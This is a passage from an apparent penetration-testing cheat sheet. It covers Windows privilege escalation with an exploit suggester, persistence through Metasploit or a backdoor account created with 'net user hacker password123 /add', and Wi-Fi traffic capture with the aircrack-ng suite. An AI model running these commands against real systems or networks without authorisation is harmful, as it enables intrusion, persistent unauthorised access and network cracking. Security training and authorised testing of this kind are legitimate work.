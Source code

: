 [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[https://github.com/pentestmonkey/unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check)

## **Windows:**

```powershell
#after getting a low privilege shell
systeminfo
#copy the result to systeminfo.txt
python2 ~/tools/Windows-Exploit-Suggester/windows-exploit-suggester.py --update
python2 ~/tools/Windows-Exploit-Suggester/windows-exploit-suggester.py --systeminfo systeminfo.txt --database [DB].xls
```

[https://github.com/pentestmonkey/windows-prive](https://github.com/pentestmonkey/windows-privesc-check)

[sc-check](https://github.com/pentestmonkey/windows-privesc-check)

[http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)

[https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/](https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/)

# Maintain Access

- metasploit

    ```bash
    persistence -h
    OR
    exploit/windows/local/persistence
    OR
    net user hacker password123 /add
    ```

# Wireless Penetration

- airmon-ng, airodump-ng, aircrack-ng - crack wifi networks

    ```bash
    iwconfig #show wireless cards, check after connecting the wireless card to the vm machine in options
    airmon-ng check kill #will kill process that intruppt
    airmon-ng start wlan0 #starts monitor mode on the card
    iwconfig #will assure that we are in monitor mode
    airodump-ng wlan0mon #check for avaliable networks, PWR show the closer network, the smallest number is the closest
    airodump-ng -c 6 --bssid MAC -w capture wlan0mon #will capture data from the specific MAC address of the network we want, 6 is the channel number of the network
